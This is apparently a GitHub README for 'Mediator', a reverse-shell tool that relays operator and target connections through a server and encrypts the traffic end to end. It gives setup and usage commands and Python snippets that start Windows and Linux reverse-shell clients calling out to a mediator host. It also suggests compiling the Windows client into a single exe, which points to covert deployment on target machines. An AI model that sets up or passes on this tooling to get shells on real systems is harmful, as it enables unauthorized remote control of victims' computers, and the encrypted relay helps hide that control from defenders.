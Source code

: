 # Mediator

Mediator is an end-to-end encrypted reverse shell that doesn't require port forwarding for the handler.

### Architecture:

Inspired by end-to-end encrypted chat applications, this reverse shell takes a unique approach to the client/server model of a reverse shell. This reverse shell uses:

1. A client reverse shell
2. A client handler/operator
3. A server that bridges the two connections

Reverse shells and handlers connect to the mediator server with a connection key. The server queues clients according to their respective type and connection key. When both a reverse shell and an operator connect to the server with the same key, the server will bridge the two connections. From there, a key exchange is done between the two clients, and all communication between the reverse shell and operator is encrypted end-to-end. This ensures the server cannot snoop on the streams it is piping.

### Instructions:

**Server**

The client scripts can be run on Windows or Linux, but you'll need to stand up the server ([mediator.py](mediator.py)) on a Linux host. You can either run the server script with

```bash
$ python3 mediator.py
```

or you can build a Docker image with the provided [Dockerfile](Dockerfile) and run it in a container (make sure to publish ports 20000 and 20001).

**Clients**

Both clients accept arguments for the server address and connection key.

**Mediator server address**

For *python script* usage, the address of the mediator host is required upon instantiation:

*Handler class*
```python
from handler import Handler

operator = Handler(mediatorHost="example.com")
operator.run()
```

*WindowsRShell class*
```python
from windowsTarget import WindowsRShell

shell = WindowsRShell(mediatorHost="example.com")
shell.run()
```

If executing a client *directly from a shell*, you can either hard code the address at the bottom of the script, or the server address can be specified as an argument with a `-s` or `--server` flag:

*handler.py*
```bash
$ python3 handler.py -s example.com
```

*windowsTarget.py*
```powershell
> python windowsTarget.py -s example.com
```

**Connection key**

When two handlers or two reverse shells connect to the mediator server with the same connection key, only the first connection is queued awaiting its match. Until the queued connection either times out (15 seconds) or matches with a counterpart connection, all other clients of the same type trying to connect with the same connection key will be dropped.

It is important to make sure each handler is using a unique connection key to avoid a race condition resulting in the wrong operator being given a shell. The default connection key is "CHANGE ME!!!".

To change the connection key for *python script* usage, the connection key can optionally be supplied upon instantiation:

*Handler class*
```python
from handler import Handler

operator = Handler(mediatorHost="example.com", connectionKey="This is my secret key!")
operator.run()
```

*LinuxRShell class*
```python
from linuxTarget import LinuxRShell

shell = LinuxRShell(mediatorHost="example.com", connectionKey="This is my secret key!")
shell.run()
```

REMINDER: handlers and reverse shells will not be bridged together unless they connect to the mediator server using the same connection key within 15 seconds of each other.

### Extra Info:

- You can easily create an exe for windowsTarget.py with pyinstaller using the `--onefile` flag

